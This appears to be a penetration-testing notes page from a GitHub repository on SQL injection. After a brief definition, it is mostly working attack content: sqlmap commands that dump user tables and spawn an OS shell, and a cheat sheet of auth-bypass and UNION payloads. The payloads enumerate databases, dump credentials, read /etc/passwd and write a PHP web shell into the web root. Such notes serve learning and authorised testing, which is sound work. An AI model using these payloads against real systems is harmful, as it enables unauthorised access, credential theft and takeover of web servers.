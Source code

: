 # SQL Injections

SQL injection refers to attacks against relational databases. Most modern web applications utilize a database structure on the back-end. Such databases are used to store and retrieve data related to the web application, from actual web content to user information and content. 

When user-supplied information is used to construct the query to the database, malicious users can trick the query into being used for something other than what the original programmer intended.


# SQLi Discovery
### Payloads
``` 	
' 	
" 	
# 	
; 	
) 
```

## SQLMap

The easiest way to run it.

1) intercept request in burp.
2) right click 'copy to file'
3) Here file named tosql

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/d5e0080f-9148-467e-b731-d2a09289684b)

### Enumerate user, db

```
sqlmap -r tosql --banner --current-user --current-db --is-dba --batch
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/17061fd0-bc0e-4bd7-a935-289e61d41316)


### Enumerate tables

```
sqlmap -r tosql  --tables -D public
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7c5a02e1-fa0d-4281-892f-a425df00e753)


### Dump table of interest
```
sqlmap -r tosql --dump -T users -D public
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e670f1a5-9664-4523-9517-ac5d91ac3f1e)

### Spawn a shell

```
sqlmap -r tosql --os-shell
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7707e8bc-3a1e-465f-b8ff-28ebf589e2f8)



## CheatSheet
More comprehensive can be found Payloadallthethings
SQL Injection
Payload 	Description
### Auth Bypass 	
```
admin' or '1'='1 	Basic Auth Bypass
admin')-- - 	Basic Auth Bypass With comments
```
Auth Bypass Payloads 	
### Union Injection 	
```
' order by 1-- - 	Detect number of columns using order by
cn' UNION select 1,2,3-- - 	Detect number of columns using Union injection
cn' UNION select 1,@@version,3,4-- - 	Basic Union injection
UNION select username, 2, 3, 4 from passwords-- - 	Union injection for 4 columns
```
### DB Enumeration 	
```
SELECT @@version 	Fingerprint MySQL with query output
SELECT SLEEP(5) 	Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- - 	Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - 	List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - 	List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - 	List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- - 	Dump data from a table in another database
```
### Privileges 	
```
cn' UNION SELECT 1, user(), 3, 4-- - 	Find current user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- - 	Find if user has admin privileges
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- - 	Find if all user privileges
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - 	Find which directories can be accessed through MySQL
```
### File Injection 	
```
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- - 	Read local file
select 'file written successfully!' into outfile '/var/www/html/proof.txt' 	Write a string to a local file
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- - 	Write a web shell into the base web directory
```
